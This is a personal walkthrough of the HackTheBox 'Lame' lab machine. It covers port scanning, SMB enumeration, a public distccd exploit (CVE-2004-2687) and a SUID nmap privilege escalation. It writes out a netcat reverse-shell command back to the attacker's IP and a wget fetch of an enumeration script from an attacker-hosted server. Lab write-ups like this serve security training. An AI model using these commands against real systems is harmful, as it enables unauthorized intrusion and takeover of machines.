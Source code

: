 # HTB_Writeups - Lame

Started off with a nmap scan nmap -Pn -T5 -sV -sC -A -p- -oN lame_nmap.txt 10.10.10.3

While that was scanning I went to go check out to see if the website is up. But I don't get anything back and you'll see why when the results are done.

We get back some nice info to start us off.
Port 80 isn't open so there was no site for me to check.
But there was other ports open such as port 21 with the version number of vsftpd 2.3.4 (This version of vsftpd is vulnerable to backdoor command execution
CVE-2011-2523) I couldn't get it to work though. So I moved on. If you can't get something to work, don't spend to much time on it. Look at the next route you can take and if you get stuck
again then go back and try to repeat your steps to make sure you didn't make a typo somewhere.
 

 

 
I see that smb is open. 139/445. I run smbmap -H 10.10.10.3 and get back some users.
 

 
we can see that tmp is READ, WRITE. Lets login and see what we can find.
I use smbclient \\\\10.10.10.3\\tmp and we get a hit. I use ls to see what we can find. Unfortunately there is nothing here either. We could use
put and get files here but there is no port 80 open for us to execute the files to gain a shell from here. Some bad luck but we got more info so lets keep looking.
 

 
I go back to the nmap results and see port 3632 is open and it gave us the version of application running. distccd v1
I go to google and search for "distccd v1 exploit" first link brings us to https://gist.github.com/DarkCoderSc/4dbf6229a93e75c3bdf6b467e67a9855
after reading the exploit it seems to generate a random alpha numeric string. Reads the string. And looks for the trigger exploit which is command, host, port
If it is able to connect to the host it will send the payload and hopefully give us a reverse shell.
 
Let's give it a try. I started by copying the code and writing it to a file naming it CVE-2004-2687.py, did chmod +x CVE-2004-2687.py
the file is ready to be used. First I started a listener on my attacking machine with nc -lvnp 9001 and then used the following command
./CVE-2004-2687.py -t 10.10.10.3 -p 3632 -c "nc 10.10.14.10 9001 -e /bin/sh" No good, got errors. Then I tried.
python3 CVE-2004-2687.py -t 10.10.10.3 -p 3632 -c "nc 10.10.14.10 9001 -e /bin/sh" I got a connected to remote service Ok but then the
socket timed out instantly killing the connection. I went back to the exploit and read the comments, it mentioned that python3 is to new.
So I was going to work my way down from python3 to python. Next up,
python2 CVE-2004-2687.py -t 10.10.10.3 -p 3632 -c "nc 10.10.14.10 9001 -e /bin/sh" Success, we get a shell!
 

 

 
Let's upgrade the shell. I used the following.
python -c 'import pty; pty.spawn("/bin/bash")' python3 and python2 didn't work.
export TERM=xterm
stty raw -echo && fg
enter
enter
 
We're a normal user daemon. I started off with sudo -l but it asked for a password. Let's move on.
I look around a bit and cd /home directory and do a ls and see what's there. Nothing good in the user directory but I did go into makis and find the user.txt file. I do a cat user.txt at it and we get out our first flag.
 

 

 
Next, let's head over to the tmp directory and try to transfer over some enumeration files like linpeas.sh
I go to my attacking machine on my transfers directory where I store all my enumeration files, scripts, images, anything that can be used to help us get an edge on the victim machine.
I use python3 -m http.server 80 get the server up and running.
On the victim machine ill be in the /tmp directory and use wget://10.10.14.10/linpeas.sh which is my attacking machines ip from HackTheBox.
The file gets transferred over no problem. I use the chmod +x linpeas.sh making it an executable file.
I use ./linpeas.sh and it kicks off no problem. We get back a lot of results. Several vulnerabilities, but one in particular catches my eye with the yellow red highlight.
 


 

 
the /usr/bin/nmap suid
I head over to https://gtfobins.github.io/ and search for nmap
I cd /usr/bin where the suid is located.
I start off with shell code (a) and nothing happened. So I keep going down the list.
Shell (b) worked!
 

 
we can now cd /root and see what is there which is the root.txt flag!
we have successfully rooted this box!
 

 

 

